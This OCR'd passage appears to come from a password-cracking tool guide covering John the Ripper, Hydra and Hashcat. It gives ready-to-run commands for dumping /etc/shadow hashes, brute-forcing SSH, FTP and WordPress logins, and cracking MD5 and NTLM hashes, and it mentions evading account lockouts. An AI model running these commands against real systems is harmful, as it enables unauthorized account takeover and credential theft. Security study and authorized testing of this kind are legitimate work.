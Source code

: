 CopyEdit 
unshadow /etc/passwd /etc/shadow > hash.txt 
2. Crack them using John the Ripper 
bash 
CopyEdit 
john hash.txt 
2. Hydra (THC-Hydra) 
Hydra is a fast online password-cracking tool used for brute-forcing remote services 
like SSH, FTP, HTTP, and RDP. 
Key Features 
Supports SSH, FTP, HTTP, RDP, SMTP, MySQL, PostgreSQL, and more 
Multithreaded for faster attacks 
Can bypass account lockouts with timed delays 
Installation 
bash 
CopyEdit 
sudo apt update 
sudo apt install hydra 
Usage 
1. Brute-force an SSH Login 
bash 
CopyEdit 
hydra -l admin -P passwords.txt ssh://192.168.1.100 
2. Brute-force an FTP Server 
bash 
CopyEdit 
hydra -l user -P rockyou.txt ftp://192.168.1.100 
3. Crack a Web Login Page (HTTP-POST FORM) 
bash 
CopyEdit 
hydra -l admin -P wordlist.txt 192.168.1.100 http-post-form 
"/login.php:user=^USER^&pass=^PASS^:Invalid credentials" 
Example Attack: 
• Target a WordPress Admin Panel: 
bash 
CopyEdit 
hydra -l admin -P wordlist.txt 192.168.1.100 http-post-form "/wp
login.php:log=^USER^&pwd=^PASS^:Invalid username" 
3. Hashcat 
Hashcat is the most powerful password recovery tool, optimized for GPU acceleration, 
making it much faster than CPU-based tools. 
Key Features 
Supports over 300 hash algorithms (MD5, SHA1, SHA256, NTLM, bcrypt, etc.) 
Uses CPU, GPU, and FPGA acceleration 
Supports brute-force, dictionary, rule-based, and mask attacks 
Cracks Wi-Fi handshakes, Windows hashes, and more 
Installation 
bash 
CopyEdit 
sudo apt install hashcat 
Usage 
1. Crack a MD5 Hash 
bash 
CopyEdit 
hashcat -m 0 -a 0 hash.txt wordlist.txt 
2. Crack NTLM Hash 
bash 
CopyEdit 
hashcat -m 1000 -a 0 hash.txt rockyou.txt 
3. Perform a Mask Attack 
bash 
CopyEdit 
hashcat -m 0 -a 3 hash.txt ?a?a?a?a?a 
(Tries all 5-character passwords) 
